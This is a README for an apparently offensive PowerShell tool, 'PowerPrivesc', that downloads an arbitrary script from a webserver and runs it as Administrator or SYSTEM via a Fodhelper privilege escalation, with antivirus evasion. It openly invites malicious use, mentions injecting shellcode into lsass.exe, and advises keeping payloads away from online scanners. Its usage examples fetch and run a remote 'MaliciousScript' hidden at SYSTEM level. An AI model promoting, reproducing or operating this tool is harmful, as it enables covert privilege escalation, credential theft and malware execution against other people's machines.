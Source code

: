 # PowerPrivesc - Your AIO FUD Powershell Privesc Tool
Your all-in-one Powershell privilege escalation tool to run ANY script from a webserver.
You heard it right,ANYTHING! Wether its malicious or not,WE DONT CARE! ;)

The privilige escalation method that this tool used is the same one with the one that used on [MeterPwrShell](https://github.com/GetRektBoy724/MeterPwrShell).
This tool literally can run any script you want,from a normal copy-paste file to injecting shellcode into lsass.exe.
Dont forget to host the script somewhere! (my own recommendation is paste.c-net.org),
And also,dont even worry of your script is getting caught by AVs,we take care of the AV Evasion and Bypass ;)
# Notes
- NEVER UPLOAD THE PAYLOAD THAT GENERATED BY THIS PROGRAM TO ANY ONLINE SCANNER
- NEVER USE THIS PROGRAM FOR MALICIOUS PURPOSE
- SPREADING THE PAYLOAD THAT GENERATED BY THIS PROGRAM IS NOT COOL
- ANY DAMAGE GENERATED BY THIS PROGRAM IS NOT MY (As the program maker) RESPONSIBILTY!!!
- THIS TOOL DOESNT SCAN FOR PRIVESC VULNS,BUT ACTUALLY EXPLOIT A VULNERABILITY THAT WORKS AND UNPATCHED ON ALL WINDOWS 10 (which is Fodhelper Privesc Vulnerability)
- If you have some feature recommendation,post that on Issue
- If you have some issue with the program,try redownloading it again (trust me),cause sometimes i edit the release and fix it without telling 😂
- If you want to know how tf my tool can bypass any AVs,you can check on [this](https://gist.github.com/GetRektBoy724/9383c9580cb1c9935fc04cc7eb7ef004) and [this](https://blog.sevagas.com/Bypass-Antivirus-Dynamic-Analysis)
### This Script Is Tested on Windows 10 v20H2
# Thanks to
- @FuzzySec for that awesome Masquerade PEB script
- @decoder-it for that amazing PPID Spoofing script
- Me for not dying when creating this tool
- Ed Wilson AKA Microsoft Scripting Guy for the great Powershell scripting tutorials
- and the last one is Emeric Nasi for the [research on bypassing AV dynamics](https://blog.sevagas.com/IMG/pdf/BypassAVDynamics.pdf)
# Requirements
- Internet Connection (On The Computer Where You Use This Script)
# Usage
```
PARAMETER ScriptLink
The link that goes into the script
PARAMETER ToPrivilege
The privilege you want,it can be Administrator or SYSTEM
SWITCH HideWindow
Use the switch to hide Powershell windows,By default,this tool shows the window
EXAMPLE
Invoke-PowerPrivesc -ScriptLink https://paste.c-net.org/MaliciousScript -ToPrivilege SYSTEM -HideWindow
Description
-----------
Run the Script as SYSTEM with window hidden
EXAMPLE
Invoke-PowerPrivesc -ScriptLink https://paste.c-net.org/MaliciousScript -ToPrivilege Administrator
Description
-----------
Run the Script as Administrator with window not hidden
```
 # To-do List
- Fix -HideWindows switch
